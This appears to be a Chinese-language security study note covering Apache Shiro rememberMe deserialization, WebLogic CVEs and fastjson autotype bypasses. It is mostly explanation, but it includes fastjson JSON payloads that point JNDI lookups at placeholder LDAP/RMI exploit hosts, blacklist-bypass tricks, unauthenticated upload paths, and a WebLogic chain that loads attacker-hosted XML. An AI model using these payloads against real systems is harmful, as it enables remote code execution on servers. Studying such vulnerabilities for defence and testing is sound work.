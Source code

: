  关键字rememberMe=deleteMe

 利用：出网>反弹、不出网>写shell

 原理：用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>反序列化。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞

 550：Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。

在 Apache Shiro<=1.2.4 版本中 AES 加密时采用的 key 是硬编码在代码中

 721：由于Apache Shiro cookie中通过 AES-128-CBC 模式加密的rememberMe字段存在问题，用户可通过Padding Oracle 加密生成的攻击代码来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行。

相较于550而言，它不需要知道key的值，但是它需要一个合法用户的rememberMe cookie

 出网协议：jndi、ldap、rmi、JRMP、JMX、JMS

### 20.Weblogic

T3原理：利用RMI（远程方法调用） 机制的缺陷，通过 JRMP 协议（Java远程方法协议）达到执行任意反序列化代码，进而造成远程代码执行。

CVE-2014-4210：SSRF、SearchPublicRegistries.jsp页面使用远程服务器

CVE-2017-10271：WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞

CVE-2018-2894：未授权的两个页面存在任意上传getshell漏洞，可直接获取权限。/ws_utc/begin.do，/ws_utc/config.do

CVE-2019-2618：弱口令+文件上传

CVE-2018-2628：利用其他rmi绕过weblogic黑名单限制，然后在将加载的内容利用readObject解析，从而造成反序列化

CVE-2020-14882：构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console，并在 WebLogic Server Console 执行任意代码。

CVE-2020-14883：未授权访问得到管理员界面

CVE-2020-2551：类似于RMI反序列化漏洞（CVE-2017-3241），都是由于调用远程对象的实现存在缺陷，导致序列化对象任意构造

组合拳：14882+14883组合拳，14882做一个未授权访问，登到控制台，然后通过14883命令执行，写一个xml文件把命令写进去，让它去访问你的vps然后加载xml。

### 21fastjson

原理：攻击者可以传入一个恶意构造的JSON内容，程序对其进行反序列化后得到恶意类并执行了恶意类中的恶意函数，进而导致代码执行。

1.2.24：fastjson autotype在处理json对象的时候，未对@type字段进行完全的安全性验证

1.2.47：绕过白名单

1.2.41：增加了checkAutoType()函数，黑白名单访问，在原类名头部加L，尾部加;即可绕过黑名单的同时加载类。

1.2.42：类名外部嵌套两层L和;

1.2.45：{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}}

1.2.47：loadClass中默认cache为true，利用分2步，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，绕过了黑名单机制。

1.2.62：{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://x.x.x.x:9999/exploit"}";
